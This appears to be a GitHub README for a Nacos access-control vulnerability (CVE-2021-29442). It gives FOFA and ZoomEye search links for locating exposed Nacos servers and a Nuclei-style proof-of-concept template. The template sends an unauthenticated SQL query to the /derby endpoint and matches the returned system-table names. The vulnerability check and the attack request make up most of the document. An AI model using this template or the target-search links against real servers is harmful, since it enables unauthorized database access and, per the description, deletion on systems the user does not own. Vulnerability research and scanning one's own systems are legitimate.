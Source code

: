 # QVD-2024-26473
QVD-2024-26473 &amp;&amp; CVE-2021-29442


# FOFA Search:
https://fofa.info/result?qbase64=YXBwPSJOYWNvcyI%3D
# ZoomEye Search:
https://www.zoomeye.org/searchResult?q=app%3A%22Alibaba%20Nacos%22


# POC:
id: CVE-2021-29442
info:
  name: Nacos Access control error vulnerability(CVE-2021-29442)
  author: Hu$SHA
  description: Allowing access the /derby without authentication and perform operations, such as querying or deleting databases
  reference:
    - https://github.com/VictorShem/QVD-2024-26473
    - https://www.cnnvd.org.cn/home/globalSearch?keyword=CNNVD-202104-2000
    - https://www.cnvd.org.cn/flaw/show/CNVD-2020-67618
    - https://ti.qianxin.com/vulnerability/detail/94994
  severity: critical
  tags: cve, sql injection, nacos, rce

http:
  - method: GET
    path:
      - "{{BaseURL}}/nacos/v1/cs/ops/derby?sql=select+st.tablename+from+sys.systables+st"

    matchers-condition: and
    matchers:
      - type: word
        part: header
        words:
          - "application/json"

      - type: regex
        part: body
        regex:
          - "\"TABLENAME\":\"(?:(?:(?:(?:(?:APP_CONFIGDATA_RELATION_[PS]UB|SYS(?:(?:CONGLOMERAT|ALIAS|(?:FI|RO)L)E|(?:(?:ROUTINE)?|COL)PERM|(?:FOREIGN)?KEY|CONSTRAINT|T(?:ABLEPERM|RIGGER)|S(?:TAT(?:EMENT|ISTIC)|EQUENCE|CHEMA)|DEPEND|CHECK|VIEW|USER)|USER|ROLE)S|CONFIG_(?:TAGS_RELATION|INFO_(?:AGGR|BETA|TAG))|TENANT_CAPACITY|GROUP_CAPACITY|PERMISSIONS|SYSCOLUMNS|SYS(?:DUMMY1|TABLES)|APP_LIST)|CONFIG_INFO)|TENANT_INFO)|HIS_CONFIG_INFO)\""

      - type: status
        status:
          - 200
